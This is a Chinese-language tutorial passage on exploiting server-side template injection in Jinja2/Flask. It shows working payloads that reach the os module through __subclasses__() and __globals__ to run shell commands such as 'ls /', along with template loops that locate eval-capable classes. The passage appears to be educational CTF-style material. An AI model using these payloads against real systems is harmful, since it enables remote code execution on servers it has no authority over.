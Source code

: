 ### 探索

你可以看到，现成的很多 payload 都是前人总结出来的，但凡是都有个开始，比如——如何从一个基类开始，去寻找一个可用的 payload 呢？

这里我们在拿到基类后，选取一个拥有初始化和全局的对象：

![image-20231130171847472](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737774.png)

我们可以看到，返回中的“`'__builtins__'`”有  **对象** (  `'xxx': <class 'xxx'>` ) ，也有 **内建函数** ( `<built-in function xxx>` )，再往后则有 **模块** (比如 `'_os': <module 'os' from '/usr/local/lib/python3.9/os.py'>`)：

当然这里的模块其实已经可以直接用了：`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['_os'].popen('ls /').read()}}`

![image-20231130190521154](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737386.png)

不过到这就结束了未免太没意思，其实内建函数也有很多可用的方法，下面我们取出 `'__builtins__'` 的内容：

`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['__builtins__']}}`

![image-20231130190805905](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737514.png)

我们可以看到很多内建的函数：

![image-20231130190834331](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737706.png)

接下来就是找和文件或者命令有关的函数，不用担心，内建函数在Python官方拥有成熟的文档，你可以随时查阅：[内置函数](https://docs.python.org/zh-cn/3/library/functions.html)

```
eval()
exec()
open()
__import__()
```



### 模板语法示例

`{{ variable_name }}`：显示一个变量的值。例如 `{{ config }}` 可以显示配置文件的值。

`{% if ... %} ... {% endif %}`：条件语句，用于基于特定条件显示不同的内容。

`{% for item in sequence %} ... {% endfor %}`：循环语句，用于遍历序列（如列表或字典）并对每个元素执行操作。

`{{ variable_name|filter_name }}`：对变量应用过滤器。

```python
## 序号查找
{% set ns = namespace(counter=0) %}
 {% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ ns.counter}}
    {% endif %}
    {% set ns.counter = ns.counter + 1 %}
{% endfor %}

## 类名格式化输出
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__name__ }} <br>
    {% endif %}
{% endfor %}
```
